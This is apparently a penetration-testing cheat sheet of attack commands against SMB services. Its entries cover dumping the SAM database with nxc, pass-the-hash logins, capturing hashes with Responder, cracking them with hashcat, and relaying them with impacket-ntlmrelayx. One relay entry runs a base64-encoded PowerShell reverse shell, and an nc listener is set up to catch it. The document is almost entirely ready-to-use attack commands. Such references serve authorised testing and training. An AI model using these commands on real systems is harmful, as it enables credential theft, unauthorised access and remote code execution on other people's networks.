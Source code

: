 ## attacking common services - smb - dump sam
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc smb <IP> -u <username> -p '<password>' --sam
```

## attacking common services - smb - pass the hash PtH
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc smb <IP> -u <username> -H <NThash>
```

## attacking common services - smb - Forced Authentication - reponder server
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
responder -I <interface name>
```

## attacking common services - smb - Forced Authentication - cracking responder hashes
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
hashcat -m 5600 <hashfile> <passwordList>
```

## attacking common services - smb - Forced Authentication - If we can't crack the hash - relay captured hash
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
cat /etc/responder/Responder.conf | grep 'SMB =' # switch it to Off
```

## attacking common services - smb - Forced Authentication - If we can't crack the hash - relay captured hash Pt.2
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
impacket-ntlmrelayx --no-http-server -smb2support -t <IP>
```

## attacking common services - smb - Forced Authentication - If we can't crack the hash - relay captured hash Pt.2 - RevShell
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
impacket-ntlmrelayx --no-http-server -smb2support -t <IP> -c 'powershell -e <base64RevShell>'
```

## attacking common services - smb - Forced Authentication - If we can't crack the hash - relay captured hash Pt.2 - RevShell listener
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nc -lvnp 9001
```
